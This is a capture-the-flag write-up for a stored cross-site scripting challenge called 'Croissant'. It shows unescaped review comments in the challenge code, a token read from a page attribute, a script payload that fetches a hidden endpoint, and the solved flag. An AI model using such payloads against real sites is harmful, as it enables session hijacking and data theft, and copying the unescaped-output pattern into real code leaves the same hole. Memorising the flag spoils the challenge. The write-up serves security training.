


# Croissant

A play on words: Croissant is a hint that the solution involved **XSS (Cross-Site-Scripting)**.

<!--toc:start-->
- [Croissant](#croissant)
  - [Context](#context)
  - [Solution](#solution)
    - [1. Identify that comments are not being escaped](#1-identify-that-comments-are-not-being-escaped)
    - [2. Identify that the endpoint providing the flag is dynamically generated](#2-identify-that-the-endpoint-providing-the-flag-is-dynamically-generated)
    - [3. Identify that the endpoint is formatted into comments](#3-identify-that-the-endpoint-is-formatted-into-comments)
    - [4. Identify that we need session token and cookie to access the endpoint](#4-identify-that-we-need-session-token-and-cookie-to-access-the-endpoint)
    - [5. We do not need to explicitly pass the cookie](#5-we-do-not-need-to-explicitly-pass-the-cookie)
    - [6. Getting the session token](#6-getting-the-session-token)
    - [7. Send the payload](#7-send-the-payload)
    - [8. Solved](#8-solved)
<!--toc:end-->

## Context

This is the main page



And you can add reviews



You can find the code released to help competitors in `dist/`

## Solution

### 1. Identify that comments are not being escaped

This should also clue you into using `comments` as the attack vector.

```html
<p class="mb-2">
  {{ review.comment | safe }}
</p>
```

### 2. Identify that the endpoint providing the flag is dynamically generated

This means that a brute-force attack to find the endpoint
is not going to be a good idea.

```py
ENDPOINT: str = f"/api/{secrets.token_urlsafe(64)}"

@app.get(ENDPOINT)
def get_flag():
    if "cookie" not in request.cookies:
        return {
            "message": "Hey!! What about my chocolate chip cookies?!",
            "status": 403,
        }, 403

    validate_token()
    return FLAG
```

### 3. Identify that the endpoint is formatted into comments

```py
newReview = CroissantReview(
    rating=int(rating),
    comment=cast(str, comment).replace("endpoint", ENDPOINT, 1),
)
reviews.append(newReview)
save(newReview)
```

Great! This means the first `endpoint` in the comment will be replaced
by the endpoint, and our payload should contain `endpoint` somewhere.

### 4. Identify that we need session token and cookie to access the endpoint

```py
def get_flag():
    if "cookie" not in request.cookies:
        return {
            "message": "Hey!! What about my chocolate chip cookies?!",
            "status": 403,
        }, 403

    validate_token()
    return FLAG
```

### 5. We do not need to explicitly pass the cookie

Based on how samesite requests work,
the cookie will be automatically passed to the endpoint.

### 6. Getting the session token

We can see that the token is added to the HTML as an `data-token` attribute.

```py
resp = make_response(
    render_template("index.html", reviews=reviews, token=session["token"])
)
```

```html
<div class="flex justify-end">
  <button type="button" class="bg-gray-500 text-white px-4 py-2 rounded mr-2" onclick="closeModal()">Cancel</button>
  <button
    id="submit"
    type="submit"
    class="bg-blue-500 text-white px-4 py-2 rounded"
    data-token="{{ token }}"
  >Submit</button>
</div>
```

We can get this programatically with javascript

```js
document.getElementById('submit').getAttribute('data-token')
```

### 7. Send the payload

Putting everything together, the payload we craft in `comment` becomes this:

```js
<script>
window.onload = () => {
    fetch('endpoint', {
        method: 'GET',
        headers: {
            'X-Requested-With': 'XMLHttpRequest',
            'X-Token': document.getElementById('submit').getAttribute('data-token')
        }
    })
      .then(res => res.text())
      .then(flag => alert(flag));
}
</script>
```

### 8. Solved

Flag: `NYP{wH4t4cRossAcRo!s5An7}`
